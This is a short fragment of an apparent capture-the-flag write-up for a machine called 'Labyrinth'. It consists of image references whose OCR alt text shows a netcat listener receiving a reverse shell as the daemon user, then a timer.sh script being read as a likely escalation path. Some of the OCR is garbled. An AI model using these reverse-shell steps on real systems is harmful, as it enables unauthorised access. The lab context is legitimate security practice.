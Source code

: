 <img src="Labyrinth-Fast/media/image21.png"
style="width:5.44167in;height:1.1in" />

<img src="Labyrinth-Fast/media/image22.png"
style="width:5.50833in;height:1.03333in" />

<img src="Labyrinth-Fast/media/image23.png"
style="width:6.16667in;height:2.2in"
alt="$ nc -nvlp 9001 listening on [any] 9001 connect to [10.9.1.229] from (UNKNOWN) [10.10.65.72] 32884 bash: cannot set terminal process group (709): Inappropriate ioctl for device bash: no job control in this shell bash: / root/.bashrc: Permission denied daemonalabyrinth : / opt/lampp/htdocs$ daemonölabyrinth:/opt/lampp/htdocs$ D " />

<img src="Labyrinth-Fast/media/image24.png"
style="width:6.375in;height:0.68333in"
alt="daemonalabyrinth:/timers$ cat timer.sh #! /bin/bash echo &quot;dont fo forge ttt&quot; &gt;&gt; /reminders/dontforget.txt " />
